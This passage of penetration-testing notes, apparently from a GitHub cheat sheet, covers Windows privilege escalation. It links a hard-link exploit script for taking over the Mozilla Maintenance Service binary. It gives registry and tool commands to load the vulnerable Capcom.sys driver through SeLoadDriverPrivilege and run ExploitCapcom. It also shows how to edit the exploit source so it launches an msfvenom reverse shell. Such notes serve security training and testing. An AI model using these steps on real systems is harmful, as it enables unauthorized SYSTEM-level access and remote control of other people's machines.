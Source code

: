 If the operating system is vulnerable to CVE-2018-0952 or CVE-2019-0841, we can leverage this to gain SYSTEM privileges. Otherwise, we can try to take advantage of an application on the server that has installed a service running in the context of SYSTEM, which is startable by unprivileged users.

An example of this is Firefox, which installs the Mozilla Maintenance Service. We can update this exploit (a proof-of-concept for NT hard link) to grant our current user full permissions on the file below:
````
Exploit: https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1

# Target File
C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe

# Taking Ownership of the File
> takeown /F C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe

# Starting the Mozilla Maintenance Service
> sc.exe start MozillaMaintenance
````

## Print Operators

Print Operators is another highly privileged group, which grants its members the **SeLoadDriverPrivilege**, rights to manage, create, share, and delete printers connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down. If we issue the command whoami /priv, and don't see the SeLoadDriverPrivilege from an unelevated context, we will need to bypass UAC.

It's well known that the driver Capcom.sys contains functionality to allow any user to execute shellcode with SYSTEM privileges. We can use our privileges to load this vulnerable driver and escalate privileges.

**LoadDriver**
````
# Add Reference to Driver
> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

The odd syntax \??\ used to reference our malicious driver's ImagePath is an NT Object Path.

# Verify Privilege is Enabled
> EnableSeLoadDriverPrivilege.exe

# Verify Driver is not Loaded
> .\DriverView.exe /stext drivers.txt
> cat drivers.txt | Select-String -pattern Capcom

# Use ExploitCapcom Tool to Escalate Privileges
> .\ExploitCapcom.exe
````
**Alternate Exploitation - No GUI**

If we do not have GUI access to the target, we will have to modify the ExploitCapcom.cpp code before compiling. Here we can edit line 292 and replace "C:\\Windows\\system32\\cmd.exe" with, say, a reverse shell binary created with msfvenom, for example: c:\ProgramData\revshell.exe.
````
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
````